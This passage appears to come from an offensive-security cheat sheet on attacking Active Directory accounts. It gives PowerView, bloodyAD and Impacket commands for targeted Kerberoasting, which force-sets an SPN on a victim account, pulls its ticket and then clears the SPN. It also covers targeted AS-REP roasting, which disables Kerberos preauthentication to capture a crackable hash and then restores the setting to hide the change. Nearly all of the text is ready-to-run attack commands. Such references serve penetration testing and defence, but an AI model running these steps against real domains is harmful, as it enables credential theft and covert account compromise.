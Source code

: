   ```ps1
  # Check for interesting permissions on accounts:
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

  # Check if current user has already an SPN setted:
  PowerView2 > Get-DomainUser -Identity <UserName> | select serviceprincipalname

  # Force set the SPN on the account: Targeted Kerberoasting
  PowerView2 > Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
  PowerView3 > Set-DomainObject -Identity <UserName> -Set @{serviceprincipalname='any/thing'}

  # Grab the ticket
  PowerView2 > $User = Get-DomainUser username 
  PowerView2 > $User | Get-DomainSPNTicket | fl
  PowerView2 > $User | Select serviceprincipalname

  # Remove the SPN
  PowerView2 > Set-DomainObject -Identity username -Clear serviceprincipalname
  ```

We can change a victim's **userAccountControl** to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back.

* Windows/Linux:

  ```ps1
  # Modify the userAccountControl
  $ bloodyAD --host [DC IP] -d [DOMAIN] -u [AttackerUser] -p [MyPassword] add uac [Target_User] -f DONT_REQ_PREAUTH

  # Grab the ticket
  $ GetNPUsers.py DOMAIN/target_user -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

  # Set back the userAccountControl
  $ bloodyAD --host [DC IP] -d [DOMAIN] -u [AttackerUser] -p [MyPassword] remove uac [Target_User] -f DONT_REQ_PREAUTH
  ```

* Windows only:

  ```ps1
  # Modify the userAccountControl
  PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
  PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose

  # Grab the ticket
  PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
  ASREPRoast > Get-ASREPHash -Domain domain.local -UserName username

  # Set back the userAccountControl
  PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
  PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
  ```

